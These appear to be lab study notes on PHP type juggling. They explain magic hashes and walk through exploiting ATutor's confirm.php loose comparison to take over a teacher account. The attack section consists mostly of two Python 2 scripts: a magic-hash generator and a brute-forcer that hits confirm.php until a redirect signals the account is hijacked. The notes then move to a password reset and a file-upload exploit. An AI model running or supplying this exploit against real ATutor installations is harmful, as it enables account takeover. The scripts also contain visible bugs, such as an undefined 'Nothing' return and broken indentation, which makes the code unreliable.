 ## What is Type Juggling
A type juggling vulnerability arises when loose comparisons(== or == ! ) are employed instead of strict comparisons (=== or !== ) in an area where the attacker can control one of the variables being controlled.

For instance:

![](../../Screenshots/t1-ss53.png)

We see that comparing:
1. Hex value in string type to integer value in string type
2. Hex value in string type and integer value in integer type
3. Hex value in integer type and integer value in integer type
all give true.

For atutor, we are interested in scientific exponential number notations.
Any time if a string starts with any number of digits, followed by the letter "e", which is then followed by any number of digits, the string is used in numeric context, and will be evaluated as a number.

In the following example:

![](../../Screenshots/t1-ss54.png)

We see that, the automatic string-to-integer casting is working as expected even when the exponential notation is involved.

## Type Juggling Atutor
In context of Atutor, we  find a publicly accessible confirm.php page, where we see the following chunk of code:

![](../../Screenshots/t1-ss55.png)

We see that if the GET request variables, 'e', 'id' and 'm' are set, the values are then set to their respective variables.
The non-working addslashes function is being used.
The id variable is then used to build the sql query. The id variable is typecast into an integer and that query is also properly parameterized for the queryDB function(elimination the chance of sql injection).
Finally, there's a check for the creation date of user's email by comparing it if a creation date exists.

Going further:

![](../../Screenshots/t1-ss56.png)

The $code variable is initialized with the MD5 hash of the concatenated string consisting of 2 values that we control i.e. $e and $id  and the creation date entry, returned from the database by the previously analyzed SELECT query.
Moreover, only the first 10 characters of the MD5 hash are being assigned to the $code variable.

The vulnerable part then arrives, where we see a loose comparison of the $code and $m variable.
Here, we fully control the $m variable and partially control the $code variable.

## Exploiting Magic Hashes
To exploit a type juggling vulnerability, we use magic hashes.
A magic hash is basically a string that is when converted into a hash, creates a string starting with 0, followed by the letter "e", followed by other digits.
For instance:

![](../../Screenshots/t1-ss57.png)

Here, the md5 hash of the given number, starts with 0, followed by the letter 'e', followed by a numerical string.
This means, this number can exploit a type juggling vulnerability.

In our Atutor instance, the hash formed for the loose comparison is created by the email, the creation date and the id.
We can create a similar magic hash generator in python as follows:

```python
import hashlib, string, itertools, re, sys

def gen_code(domain, id, date, prefix_length):
    count = 0
    for word in itertools.imap(''.join, itertools.product(string.lowercase, repeat=int(prefix_length))):
        hash = hashlib.md5("%s@%s" % (word, domain) + date + id).hexdigest()[:10]
        if re.match(r'0+[eE]\d+$', hash):
            print "(+) Found a valid email! %s@%s" % (word, domain)
            print "(+) Requests made: %d" % count
            print "(+) Equivalent loose comparison: %s == 0\n" % (hash)
        count += 1

def main():
    if len(sys.argv) != 5:
        print '(+) usage: %s <domain_name> <id> <creation_date> <prefix_length>' % sys.argv[0]
        print '(+) eg: %s offsec.local 3 "2018-06-10 23:59:59" 3'  % sys.argv[0]
        sys.exit(-1)

    domain = sys.argv[1]
    id = sys.argv[2]
    creation_date  = sys.argv[3]
    prefix_length = sys.argv[4]

    gen_code(domain, id, creation_date, prefix_length)

if __name__ == "__main__":
    main()
```

The script, takes a domain(that we control), id, creation date and a set of alpha characters, to create all possible combinations of usernames, where the md5 hash results to a scientific exponent string.

The result of the script is as follows:

![](../../Screenshots/t1-ss58.png)

In a 3 character set, the number of requests made is 617, which is not a lot.

We can use this logic, to create a script, that brute forces the web application into generating a redirect request, which is created if the md5 of email gives 0eDDD.

```python
import hashlib, string, itertools, re, sys, requests

def update_email(ip, domain, id, prefix_length):
    count = 0
    for word in itertools.imap(''.join, itertools.product(string.lowercase, repeat=int(prefix_length))):
        email = "%s@%s" % (word, domain)
        url = "http://%s/ATutor/confirm.php?e=%s&m=0&id=%s" % (ip, email, id)
	      print "(*) Issuing update request to URL: %s" % url
        r = requests.get(url, allow_redirects=False)
        if (r.status_code == 302):
            return (True, email, count)
        else:
            count += 1
    return (False, Nothing, count)

def main():
    if len(sys.argv) != 5:
        print '(+) usage: %s <domain_name> <id> <prefix_length> <atutor_ip>' % sys.argv[0]
        print '(+) eg: %s offsec.local 1 3 192.168.1.2'  % sys.argv[0]
        sys.exit(-1)

    domain = sys.argv[1]
    id = sys.argv[2]
    prefix_length = sys.argv[3]
    ip = sys.argv[4]

    result, email, c = update_email(ip, domain, id, prefix_length)
    if(result):
        print "(+) Account hijacked with email %s using %d requests!" % (email, c)
    else:
        print "(-) Account hijacking failed!"

if __name__ == "__main__":
    main()
```

Executing the script, we see that the email for the teacher account is changed:

![](../../Screenshots/t1-ss59.png)

After 2335 attempts, we find the username that will bypass authentication.
And the teacher account is hijacked:

![](../../Screenshots/t1-ss60.png)

With the email changed, we can now request an change password on this account:

![](../../Screenshots/t1-ss61.png)

By changing the password, we can then login with the new password and move forward to exploit the file upload vulnerability.
